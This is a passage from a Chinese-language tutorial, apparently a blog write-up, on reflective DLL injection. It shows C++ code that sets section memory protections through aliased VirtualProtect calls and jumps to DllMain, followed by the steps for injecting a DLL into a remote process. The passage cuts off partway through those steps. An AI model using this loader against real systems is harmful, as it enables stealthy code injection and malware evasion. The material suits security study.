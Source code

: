 ```cpp
    if (peSections[i]->Characteristics & IMAGE_SCN_MEM_READ && peSections[i]->Characteristics & IMAGE_SCN_MEM_WRITE) { //readwrite

        dwProtection = PAGE_READWRITE;

    }
    if (peSections[i]->Characteristics & IMAGE_SCN_MEM_EXECUTE && peSections[i]->Characteristics & IMAGE_SCN_MEM_WRITE) { //executewrite

        dwProtection = PAGE_EXECUTE_WRITECOPY;

    }
    if (peSections[i]->Characteristics & IMAGE_SCN_MEM_EXECUTE && peSections[i]->Characteristics & IMAGE_SCN_MEM_READ) { //executeread

        dwProtection = PAGE_EXECUTE_READ;

    }
    if (peSections[i]->Characteristics & IMAGE_SCN_MEM_EXECUTE && peSections[i]->Characteristics & IMAGE_SCN_MEM_READ && peSections[i]->Characteristics & IMAGE_SCN_MEM_WRITE) { //executereadwrite

        dwProtection = PAGE_EXECUTE_READWRITE;
    }
    if (!VP((PVOID)(pebase + peSections[i]->VirtualAddress), peSections[i]->SizeOfRawData, dwProtection, &dwOldProtection)) {
        return FALSE;
    }

}
```
### 调用 dll 入口点
最后我们刷新指令缓存，使得我们先前的工作生效，然后返回入口点地址就可以了，然后就会完成C运行库的初始化，执行一系列安全检查并调用dllmain。
```cpp
    FIC((HANDLE)-1, NULL, 0x00);
    
    /*--------------EXECUTE ENTRY POINT--------------*/
    pDllMain = (fnDllMain)(pebase + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint);
    return pDllMain((HMODULE)pebase, DLL_PROCESS_ATTACH, NULL);
```
# ReflectiveInject
在 inject 里面要做的事情主要有一下几步：

1. **下载/读取我们的 DLL 字节**

下载或读取DLL文件的原始字节内容，以便稍后将其注入到远程进程中。

2. **查找 ReflectiveFunction 的 RAW 地址**

在DLL文件中找到ReflectiveFunction的原始地址。这通常需要解析DLL的PE结构以定位目标函数的地址。

3. **在远程进程中分配内存**
